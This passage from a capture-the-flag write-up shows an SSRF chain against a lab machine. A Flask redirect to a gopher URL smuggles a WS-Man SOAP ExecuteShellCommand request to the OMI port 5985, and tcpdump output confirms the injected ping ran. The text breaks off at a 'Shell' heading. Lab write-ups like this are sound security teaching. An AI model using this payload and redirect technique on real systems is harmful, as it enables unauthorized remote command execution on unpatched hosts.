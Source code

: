 ```
<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:h="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema">
...[snip]...
      <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
         <p:command>ping -c 1 10.10.14.6</p:command>
         <p:timeout>0</p:timeout>
      </p:ExecuteShellCommand_INPUT>
   </s:Body>
</s:Envelope>

```

### Remote

#### Ping

Instead of having it send the request to me, I’ll target 5985 on Jarmis:

```

    return redirect(f'gopher://127.0.0.1:5985/_{enc_req}', code=301)

```

After saving, I’ll send it again. It hits MSF:

```

[*] Redirecting client 10.10.11.117 to https://10.10.14.6:8443

```

Then Flask:

```
10.10.11.117 - - [23/Sep/2021 12:05:30] "GET / HTTP/1.1" 301 -

```

And finally I see `ping` at `tcpdump`:

```

oxdf@parrot$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:05:30.903265 IP 10.10.11.117 > 10.10.14.6: ICMP echo request, id 5, seq 1, length 64
12:05:30.903286 IP 10.10.14.6 > 10.10.11.117: ICMP echo reply, id 5, seq 1, length 64

```

#### Shell
